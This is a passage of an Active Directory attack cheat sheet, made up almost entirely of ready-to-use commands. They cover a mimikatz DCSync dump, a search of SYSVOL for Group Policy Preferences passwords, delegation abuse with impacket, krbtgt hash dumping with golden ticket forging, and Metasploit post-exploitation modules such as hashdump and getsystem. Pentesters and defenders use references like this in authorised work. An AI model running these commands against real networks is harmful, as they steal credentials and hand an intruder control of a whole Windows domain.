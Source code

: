 ### DCSync Attack (Requires Replication Permissions)

```ps1
mimikatz "privilege::debug" "lsadump::dcsync /domain:test.local /user:Administrator"
```

### Extracting Credentials from Group Policy Preferences

```ps1
findstr /S cpassword \"\\<TARGET_IP>\\SYSVOL\\test.local\\Policies\"
```

### Abusing Unconstrained Delegation

```ps1
impacket-getST -spn cifs/10.10.10.2 test.local/fcastle:Password1 -dc-ip 10.10.10.1
impacket-psexec test.local/Administrator@10.10.10.2 -k -no-pass
```

---

## Post-Pwning Domain Controller
We can try doing a golden ticket attack to get more access to the whole domain by using mimikatz on the domain controller
```ps1
mimikatz.exe

privilege::debug

# dump the krbtgt user hash
lsadump::lsa /inject /name:krbtgt

kerberos::golden /User:Administrator /domain:test.local /sid:[DOMAIN_SID] /krbtgt:[KRBTGT_NTLM_HASH] /id:500 /ptt

# next we want the golden ticket cmd
misc::cmd

# now check our privileges, with accessing another machine
dir \\machine-01\c$
```

## Useful Metasploit Modules for Post Windows Exploitations
```sh
# Meterpreter
sysinfo
getuid
getsystem
getuid
getprivs
hashdump
show_mount
ps
migrate

# msfconsole
use post/windows/manage/migrate
use post/windows/gather/win_privs
use post/windows/gather/enum_logged_on_users
use post/windows/gather/checkvm
use post/windows/gather/enum_applications
use post/windows/gather/enum_av_excluded
use post/windows/gather/enum_computers
use post/windows/gather/enum_patches
```